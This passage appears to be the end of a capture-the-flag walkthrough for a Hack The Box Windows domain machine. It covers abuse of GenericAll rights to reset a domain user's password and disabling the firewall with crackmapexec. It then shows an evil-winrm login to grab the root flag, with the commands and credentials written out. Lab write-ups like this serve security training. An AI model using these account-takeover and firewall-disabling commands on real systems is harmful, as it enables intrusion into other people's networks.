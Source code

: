 As we have GenericAll over Tristan.Davies we can change the user's password.

```
Invoke-Command -computername research -Credential $cred -ScriptBlock {net user /domain tristan.davies Password123}
```

![](<../../../.gitbook/assets/image (730).png>)

To gain full shell access I disabled the firewall with our now acquired Domain Administrator account.

```
crackmapexec smb '10.10.11.129' -u 'Tristan.Davies' -p 'Password123' -d 'search.htb'  -x 'netsh advfirewall set allprofiles state off'
```

Check the WSMAN is running with `Nmap`.

![](<../../../.gitbook/assets/image (644).png>)

### root.txt

Then proceeded to login with `Evil-WinRM`.

```
evil-winrm -i '10.10.11.129' -u 'Tristan.Davies' -p 'Password123'
```

Then grabbed the `root.txt` flag.

![](<../../../.gitbook/assets/image (676).png>)
